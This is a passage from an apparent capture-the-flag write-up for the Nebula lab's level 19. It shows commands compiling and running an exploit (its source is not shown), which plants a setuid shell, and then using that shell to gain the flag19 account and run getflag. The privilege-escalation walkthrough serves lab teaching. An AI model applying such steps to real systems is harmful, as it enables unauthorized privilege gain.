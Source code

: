 We compile and run our exploit code.

```shell
level19@nebula:~$ gcc -o /home/level19/exploit /home/level19/exploit.c
level19@nebula:~$ /home/level19/exploit
```

After a few seconds, we see a `/home/flag19/shell` binary.

```shell
level19@nebula:~$ ls -lah /home/flag19
total 21K
drwxr-x--- 1 flag19 level19   60 2017-12-27 22:56 .
drwxr-xr-x 1 root   root     260 2012-08-27 07:18 ..
-rw-r--r-- 1 flag19 flag19   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag19 flag19  3.3K 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag19 level19 7.4K 2011-11-20 21:22 flag19
-rw-r--r-- 1 flag19 flag19   675 2011-05-18 02:54 .profile
-rwsrwxrwx 1 flag19 level19 7.2K 2017-12-27 22:56 shell
```

Running it gets us a shell.

```shell
level19@nebula:~$ /home/flag19/shell
flag19@nebula:~$ whoami
flag19
flag19@nebula:~$ id
uid=980(flag19) gid=1020(level19) groups=980(flag19),1020(level19)
flag19@nebula:~$ getflag
You have successfully executed getflag on a target account
```

[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md
